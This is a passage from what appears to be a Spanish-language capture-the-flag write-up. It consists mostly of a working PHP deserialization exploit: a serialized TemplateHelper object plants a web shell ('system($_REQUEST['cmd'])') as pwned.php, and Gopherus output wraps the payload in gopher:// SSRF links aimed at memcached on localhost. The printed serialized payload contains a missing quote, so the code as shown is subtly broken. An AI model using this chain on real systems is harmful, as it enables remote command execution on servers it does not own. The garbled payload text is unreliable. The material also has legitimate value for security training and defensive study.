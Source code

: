 ```null
    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {       
        $this->file = $file;
        $this->data = $data;
        file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
    }
}

$payload = new TemplateHelper("pwned.php", "<?php system(\$_REQUEST['cmd']); ?>");
echo serialize($payload);
?>
```

```null
mkdir logs
php serialize.php
O:14:"TemplateHelper":2:{s:4:"file";s:9:"pwned.php";s:4:"data";s:33:"<?php system($_REQUEST['cmd]); ?>";}
```

Utilizo de nuevo ```Gopherus``` para tramitar esta data serializada

```null
gopherus --exploit phpmemcache


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$


This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:9:"pwned.php";s:4:"data";s:33:"<?php system($_REQUEST['cmd]); ?>";}

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20105%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:9:%22pwned.php%22%3Bs:4:%22data%22%3Bs:33:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27cmd%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload: 

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```
